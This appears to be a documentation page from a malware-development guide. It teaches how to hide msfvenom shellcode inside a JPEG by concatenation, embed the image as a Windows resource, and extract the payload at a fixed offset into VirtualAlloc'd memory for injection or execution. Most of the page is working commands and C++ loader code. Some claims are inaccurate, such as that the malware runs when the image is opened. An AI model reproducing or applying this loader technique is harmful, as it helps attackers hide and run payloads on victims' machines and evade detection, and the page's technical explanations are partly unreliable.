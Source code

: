 ```yaml
---
layout: default
---
```


# Image Concatenation

The basic idea is to hide the malware inside the concatenated image file. The malware can be hidden in the binary data of the image file. This can be done by adding the malware code to the end of the image file, after the image data. When the concatenated image file is downloaded and opened, the image will display normally, but the malware code will be executed in the background.

1. Download a random image and find the length of byte. We can `xxd` for this purpose.

```
xxd -i saturn.jpg
```

![saturn-xxd.jpg]{/docs/resources/malware/saturn-xxd.jpg}

As shown above, the command precisely display the size of the image in bytes. Take a note.

1. Create a binary with msfvenom and find its size. For demonstration purposes, lets use a message box binary.

```bash
xxd -i msgbox64.bin
```

![msg-box.jpg]{/docs/resources/malware/msgbox-size.png}

Once we have both the file length, concatenate the shellcode with the image file.

```bash
xxd -p msgbox64.bin | tr -d "\n" >> saturn.jpg
```

1. Create the resource file for the image.

```cpp
#include "resources.h"

IMAGE RCDATA "saturn.jpg"
```

Similarly the` resource.h` file

```cpp
#define IMAGE 100
```

Final code for reading the malicious image file for the resource would be:

```cpp
// Extract payload from resources section
res = FindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
resHandle = LoadResource(NULL, res);
image = (char *) LockResource(resHandle);
image_len = SizeofResource(NULL, res);
```

The `image` character pointer points to first byte of the malicios image, and `image_len` the corresponding length of the image.

2. Extract the shellcode

The `end` character pointer would point to the first byte of binary.

We know already made of note of image length as well as the shellcode length. We can find the corresponding offset that would point to the first byte of the shellcode.

```
offset = image + 2653; 
memcpy(p0,offset,336);

exec_mem = VirtualAlloc(0, 336, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
RtlMoveMemory(exec_mem, p0, 336);
```

We then use the `memcpy` command to copy the shellcode from the image to another location in memory `p0`. Using `VirtualAlloc` shellcode size memory is allocated. Then `RTLMoveMemory` function is used to copy the contents from `p0` memory block to a `exec_mem` memory block. At this point the code could be used to inject into a process or execute as a child process.




